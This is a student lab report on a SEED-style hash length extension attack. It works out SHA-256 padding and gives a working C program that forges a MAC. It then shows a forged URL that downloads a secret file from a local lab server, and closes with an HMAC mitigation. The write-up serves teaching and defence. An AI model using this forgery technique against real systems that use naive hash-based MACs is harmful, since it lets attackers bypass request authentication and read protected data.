







# Report 3: Hash Length Extension Attack Lab

In this lab we will explore how we can compromise a Mac by expanding an intercepted message without knowing the key.
To do this, we will first need to set up the lab environment. Firstly, we download the zip and build the **docker image**. Then we need to change the **/etc/hosts** file and add a new address to it, that being:

```sh
10.9.0.80 www.seedlab-hashlen.com
```

With this we are finally ready to start the lab.

## Task 1: Send Request to List Files

In order for the website to list all it's files we need to craft a request in the following way:

```sh
http://www.seedlab-hashlen.com/?myname=<name>&uid=<need-to-fill>&lstcmd=1&mac=<need-to-calculate>
```
Firstly the **lstcmd** needs the value of **1** to execute this type of request and the link above is also missing 3 arguments: **myname**, **uid** and **mac**
For this lab we will be using the name **Eduardo** and we will choose a uid from the **key.txt** in the LabHome directory. We see what is contained in the file in the image bellow:



For this lab we chose the uid of **1005** which has a corresponding key of **xciujk**. And with those 3 values we can calculate the mac for the user **Eduardo** with the uid of **1005** by executing the command bellow:

```sh
$ echo -n "xciujk:myname=Eduardo&uid=1005&lstcmd=1" | sha256sum
```

This command results in the following:



As we can see the **mac** obtained is: **ee73e3a3dfc4f7dd24bfa90a766efc79d6d9f1df31e7c2bb7c1c73404c669d3f**.
Now, equiped with the 3 arguments, we can craft the completed URL.

```sh
http://www.seedlab-hashlen.com/?myname=Eduardo&uid=1005&lstcmd=1&mac=ee73e3a3dfc4f7dd24bfa90a766efc79d6d9f1df31e7c2bb7c1c73404c669d3f
```

When we seen it using the browser we obtain the following:



The image shoes that our **MAC** is valid and shows us the two files in the directory, those being **secret.txt** and **key.txt**!

## Task 2: Create Padding

Now that we know how the website works, it is time to try to attack it! To do that we must first understand how padding is calculated for a one-way hash.
The block size of **SHA 256**is 64 bytes, so a message will be padded in blocks of 64 bytes during the hash calculation. The padding consists of one byte of **\x80** followed by many 0s and finally an **8 byte** length field with the length of the hashed message.
So, our message: **xciujk:myname=Eduardo&uid=1005&lstcmd=1**, consists of **39 bytes**. So the length of our padding will be **64-39= 25 bytes**. The length of our message will be **39*8=312 bits**. **312  bits** in hex is **\x01\x38**. So our padding will be:

```c
"\x80"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x01\x38"
``` 
With that done we can begin with the next task.

## Task 3: The Length Extension Attack

Finally, we can start the attack! For this we will need 2 things: a MAC for a valid request and the size of the MAC key. 
In **Task 1** we calculated the MAC for the message: **xciujk:myname=Eduardo&uid=1005&lstcmd=1**, that being **ee73e3a3dfc4f7dd24bfa90a766efc79d6d9f1df31e7c2bb7c1c73404c669d3f**. We also know the size of the key **xciujk** which is **6**!
With this we can add a **new message** to the end of the padding and create a valid MAC without knowing the key!
For that we will use a program called **length_ext.c** that can create a new valid **MAC** with our custom message added at the end!
The program is written bellow:

```c
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>

int main(int argc, const char *argv[])
{
    int i;
    unsigned char buffer[SHA256_DIGEST_LENGTH];
    SHA256_CTX c;
    SHA256_Init(&c);
    for(i=0; i<64; i++)
        SHA256_Update(&c, "*", 1);

    // MAC of the original message M (padded)
    c.h[0] = htole32(0xee73e3a3);
    c.h[1] = htole32(0xdfc4f7dd);
    c.h[2] = htole32(0x24bfa90a);
    c.h[3] = htole32(0x766efc79);
    c.h[4] = htole32(0xd6d9f1df);
    c.h[5] = htole32(0x31e7c2bb);
    c.h[6] = htole32(0x7c1c7340);
    c.h[7] = htole32(0x4c669d3f);

    // Append additional message
    SHA256_Update(&c, "&download=secret.txt", 20);
    SHA256_Final(buffer, &c);

    for(i = 0; i < 32; i++) {
        printf("%02x", buffer[i]);
    }
    printf("\n");
    return 0;
}
``` 
In the program above we write our valid **MAC** in **c** and we add our extra message, that being **&download=secret.txt** that should allow us to download the website's secret file!
We can compile the program using the following command:

```sh
$ gcc length_ext.c -o length_ext -lcrypto
```
Running the code results in the following image:



So the new MAC is: **b538ace34729fd01ec13ada2fb028860a6a01e88a8c972982a1a9cf6bb7527fb**! With this we can finally craft our url and see if it works. The following is the URL:

```sh
http://www.seedlab-hashlen.com/?myname=Eduardo&uid=1005&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%38&download=secret.txt&mac=b538ace34729fd01ec13ada2fb028860a6a01e88a8c972982a1a9cf6bb7527fb
```

When we input the following URL in the browser we get the following:



It worked! The **secret.txt** was accessed, but how did it work? What we did was take a legitimate MAC and calculated its padding. We then add the padding to the hash and simply add our new data in hashed form to the end of it, this way we create a legitimate MAC with our data without knowing the key! This happened because **SHA 256** does not hide the length of the original message making it possible to find the padding and attach custom data to the end of the hash.

## Task 4: Attack Mitigation using HMAC

Now that we have done the attack, how can we protect the website from it?
The answer is in using **HMAC**. Firstly we will modify the server's program and use python's **hmac** to implemente a more secure **verify_mac()**. We can implement the code by adding the following lines to **verify_mac()** in lab.py:

```py
real_mac = hmac.new(bytearray(key.encode(´'utf-8')),
msg=message.encode('utf-8', 'surrogateescape'),
digestmod=hashlib.sha256).hexdigest()
``` 

This way we are creating a HMAC for the uid keys, just like in **Task 1** we will generate a MAC to list all the files on the website's directory. But we will have to use a dedicated program as to generate a HMAC is a bit more complex than just using **SHA 256**. The following is a dedicated program to generate an **HMAC** for our uid key of **xciujk**:

```py
import hmac
import hashlib
key='xciujk'
message='myname=Eduardo&uid=1005&lstcmd=1'
mac = hmac.new(bytearray(key.encode('utf-8')),
msg=message.encode('utf-8', 'surrogateescape'),
digestmod=hashlib.sha256).hexdigest()
print(mac)
``` 

The program returns the following:



The HMAC generated is: **e0af6ca214fc8480c46da109d337ebf672cc85e8a84e626a6ec5a18097981189**! We can now craft our URL just like in **Task 1**. The following is the new URL:

```sh
http://www.seedlab-hashlen.com/?myname=Eduardo&uid=1005&lstcmd=1&mac=e0af6ca214fc8480c46da109d337ebf672cc85e8a84e626a6ec5a18097981189
```

When we access the url this is what we find:



So we made the site use **HMAC**! But why is this implementation more secure?
**HMAC** utilizes a secret key to derive two different keys: the inner key and the outer key. These keys are derived using a specific algorithmic process, usually involving XOR operations with predefined constants.
HMAC applies the hashing process twice. Initially, it takes the message and the inner key, concatenates them, and then computes the hash of this concatenated value. Subsequently, it hashes the result of the first hash operation concatenated with the outer key.
This two-step process makes HMAC immune to length extension attacks. In such attacks, an adversary attempts to append data to the original message without knowing the secret key. However, since HMAC incorporates the secret key into both the key derivation and the hashing process, it's practically impossible for an attacker to generate a valid HMAC for a modified message without the secret key. SO the website is immune to hash length attacks while using  **HMAC**! 

### Authored by:
    Eduardo Ramos, up201906732
    Leandro Silva, up202008061
    Luís Paiva, up202006094
